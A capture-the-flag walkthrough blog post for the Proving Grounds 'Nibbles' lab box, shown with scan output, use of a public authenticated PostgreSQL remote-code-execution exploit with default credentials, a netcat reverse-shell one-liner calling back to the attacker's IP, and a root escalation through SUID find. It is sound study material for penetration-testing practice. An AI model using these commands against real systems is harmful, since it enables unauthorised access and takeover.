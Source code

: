 ```yaml
---
layout: post
title: Proving Grounds - Nibbles
subtitle: CTF Walkthrough
cover-img: /assets/img/nibbler.png
thumbnail-img: /assets/img/nibbler.png
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Nibbles is a intermediate rated box on Proving Grounds, which is also found in NetSec Focus trophy list and in many OSCP preparation lab lists.

### Nmap Scan

```
└─$ nmap -sV -sC 192.168.157.47             
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-02 10:04 EDT
Nmap scan report for 192.168.157.47
Host is up (0.12s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

```

### UDP Scan

No ports open

### FTP

Anonymous access is disabled, moving on for now.

### HTTP

* Directory brute forcing gave no results
* Attempted to fuzz http://192.168.157.47/page2.html with different page number combinations with no results
* No low hanging fruits, moving on for now

### Posgresql

Searched google for "PostGreSQL 11.3 Exploit" and stumbled across [PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50847)

Downloaded and attempted to run this with default values even though it's authenticated. Just edited the script to change the port and IP address and it seemed to work. Looks like default username/password was not changed.

```
┌──(kali㉿kali)-[~/ctf/pg_practise/nibbles]
└─$ python 50847.py 

[+] Connecting to PostgreSQL Database on 192.168.157.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Add the argument -c [COMMAND] to execute a system command

```

Added a reverse shell to command parameter and we got a local user shell !

```
┌──(kali㉿kali)-[~/ctf/pg_practise/nibbles]
└─$ python 50847.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.157 80 >/tmp/f"

[+] Connecting to PostgreSQL Database on 192.168.157.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _8e1261939f6bc6f21e1804f30e744ab7

```

Local flag

```
$ whoami
postgres
$ find / -name local.txt 2>/dev/null
/home/wilson/local.txt
```

### Privilege escalation

I spawned tty with python and did SUID and crontab checks first.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
postgres@nibbles:/var/lib/postgresql/11/main$

postgres@nibbles:/var/lib/postgresql/11/main$ find / -type f -perm -04000 -ls 2>/dev/null 
</main$ find / -type f -perm -04000 -ls 2>/dev/null 
   137358     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    19052    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    15602     52 -rwsr-xr--   1 root     messagebus    51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      282     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
      286     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
      285     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
      283     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
    34845     36 -rwsr-xr-x   1 root     root          34896 Jan  7  2019 /usr/bin/fusermount
     3838     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
      261     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
     4071     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     2248    312 -rwsr-xr-x   1 root     root         315904 Feb 16  2019 /usr/bin/find
    22663    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
     4073     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount

postgres@nibbles:/var/lib/postgresql/11/main$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

```
Looking through SUID files I noticed there's find executable which is not something I have seen frequently. Double checking it on GTFOBins we can see it can be used to elevate our privileges.
```
postgres@nibbles:/var/lib/postgresql/11/main$ /bin/find . -exec /bin/sh -p \; -quit
<esql/11/main$ /bin/find . -exec /bin/sh -p \; -quit
# whoami 
whoami
root
```

GG we got root.
